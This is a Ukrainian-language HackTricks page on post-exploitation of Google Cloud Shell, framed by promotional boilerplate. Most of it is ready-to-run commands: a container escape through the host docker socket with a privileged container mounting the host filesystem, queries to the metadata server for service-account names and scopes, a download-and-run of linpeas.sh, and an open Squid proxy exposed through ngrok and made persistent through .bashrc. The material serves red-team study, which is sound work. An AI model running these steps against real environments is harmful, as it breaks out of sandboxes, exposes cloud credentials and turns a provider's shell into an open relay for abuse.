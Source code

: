 # GCP - Післяексплуатація Cloud Shell

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію в рекламі HackTricks** або **завантажити HackTricks у PDF** Перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
* &#x20;репозиторії github.

</details>

## Cloud Shell

Для отримання додаткової інформації про Cloud Shell перегляньте:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Втеча з контейнера

Зверніть увагу, що Google Cloud Shell працює всередині контейнера, ви можете **легко вийти на хост** виконавши: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

Це не вважається уразливістю Google, але це дає вам ширший огляд того, що відбувається в цьому середовищі.

Крім того, зверніть увагу, що з хоста ви можете знайти токен облікового запису служби: 

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

З наступними обсягами:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
Отримати метадані за допомогою LinPEAS:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

Після використання [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) з токеном облікового запису служби **дозволів не було виявлено**...

### Використання як проксі

Якщо ви хочете використовувати екземпляр оболонки Google Cloud як проксі, вам потрібно виконати наступні команди (або вставити їх у файл .bashrc):
```bash
sudo apt install -y squid
```
Тільки щоб ви знали, Squid - це http-проксі-сервер. Створіть файл **squid.conf** з наступними налаштуваннями:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
скопіюйте файл **squid.conf** до **/etc/squid**
```bash
sudo cp squid.conf /etc/squid
```
Нарешті запустіть службу squid:
```bash
sudo service squid start
```
Використовуйте ngrok, щоб проксі був доступний ззовні:
```bash
./ngrok tcp 3128
```
Після запуску скопіюйте URL tcp://. Якщо ви хочете запустити проксі з браузера, рекомендується видалити частину tcp:// та порт і вставити порт у поле порту налаштувань проксі вашого браузера (squid - це http-проксі-сервер).

Для кращого використання при запуску файл .bashrc повинен містити наступні рядки:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
Інструкції були скопійовані з [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). Перевірте цю сторінку для інших незвичайних ідей щодо запуску будь-якого виду програмного забезпечення (баз даних навіть Windows) в Cloud Shell.

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити свою **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
